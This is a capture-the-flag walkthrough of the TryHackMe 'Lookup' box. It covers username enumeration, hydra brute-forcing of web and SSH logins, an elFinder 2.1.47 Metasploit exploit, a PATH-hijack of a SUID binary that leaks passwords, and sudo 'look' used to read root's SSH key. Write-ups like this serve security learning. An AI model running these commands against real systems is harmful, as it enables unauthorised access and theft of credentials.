simple nmap scan to discover open ports



now using feroxbuster to find hidden folders

```
feroxbuster -u http://lookup.thm -w /usr/share/seclists/Discovery/Web-Content/common.txt
```



nothing interesting now checking the website



trying some default credentials like `admin:admin` and we got found something, there is logic flaw in logging form



we get `wrong password` error if logging as `admin`



we got `wrong username or password` error when logging as `test`
 
we know that user is admin for sure because of error saying wrong password when logging as `admin:admin`  but saying wrong username or password as logging as `test:test`

i couldnt break into admin account so i tried finding other accounts using hydra

```
hydra -L /usr/share/seclists/Usernames/Names/names.txt -p test123 lookup.thm http-post-form "/login.php:username=^USER^&password=^PASS^:F=wrong username or password" 
```


found admin and `jose`

now trying rockyou on jose

```
hydra -l jose -P /usr/share/wordlists/rockyou.txt lookup.thm http-post-form "/login.php:username=^USER^&password=^PASS^:F=wrong password"
```



after logging we are sent into `files.lookup.thm`



now we know that server uses `elfinder 2.1.47`

checking for exploits in searchsploit



there are some exploits to use 

also checking metasploit 



we are going to use 4

creating the payload



and we got shell as `www-data`

copying linpeas into machine and we found odd SUID binary



this will be our lateral movement factor

after running this script we see that it will write the content of the `.password` file depending on the current user id command and  `/home` path



we could create our own version of id command, the script would execute our malicious id command where would be fake id info, we know that .password file is in `/home/think` so we will replicate id command for user think 

```
$ mkdir /tmp/id
$ echo '#!/bin/bash' > id
$ echo 'echo "uid=1000(think) gid=1000(think) groups=1000(think)"' >>id
$ chmod +x id
```

now our id script simulates output of id command as user think

now we also need to change path so that our script will be looked up first 

```
export PATH=/tmp/id:$PATH
```

now we can run a script /usr/sbin/pwm and we got some kind of list of passwords 






using hydra once again to brute force ssh login as think

```
hydra -l "think" -P CTF/THM/lookup/pass.txt ssh://10.10.X.X
```



now we can ssh as think and grab user flag

we check `sudo -l`

now we know that we can run `sudo /usr/bin/look '' /root/.ssh/id_rsa` to find ssh key



now we can ssh into root and grab root flag

```
$ chmod 600 key
$ ssh -i key root@10.10.X.X
```


